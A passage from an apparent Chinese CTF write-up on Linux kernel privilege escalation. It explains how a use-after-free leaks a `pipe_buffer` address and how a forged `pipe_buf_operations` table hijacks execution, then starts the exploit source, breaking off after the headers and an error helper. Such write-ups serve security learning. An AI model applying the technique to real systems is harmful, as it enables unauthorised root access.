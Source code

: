 同时内核中会分配一个 `pipe_buffer` 结构体数组，每个 `pipe_buffer` 结构体对应一张用以存储数据的内存页：

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` 为一张函数表，当我们对管道进行特定操作时内核便会调用该表上对应的函数，例如当我们关闭了管道的两端时，会触发 `pipe_buffer->pipe_buffer_operations->release` 这一指针，由此我们便能控制内核执行流，从而完成提权。

```c
struct pipe_buf_operations {
	//...

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

那么这里我们可以利用 UAF 使得 `user_key_payload` 与 `pipe_inode_info` 占据同一个 object， `pipe_inode_info` 刚好会将 `user_key_payload->datalen` 改为 `0xFFFF` 使得我们能够继续读取数据，从而读取 `pipe_inode_info`  以泄露出 `pipe_buffer` 的地址。

而  `pipe_buffer` 是动态分配的，因此我们可以利用题目功能预先分配一个对象作为 `pipe_buffer` 并直接在其上伪造函数表即可。

> 对于笔者来说比较麻烦的倒是找栈迁移的 gadget...好在最后还是成功找到了一些合适的 gadget。

### EXPLOIT

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

/**
 * Utilities
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

```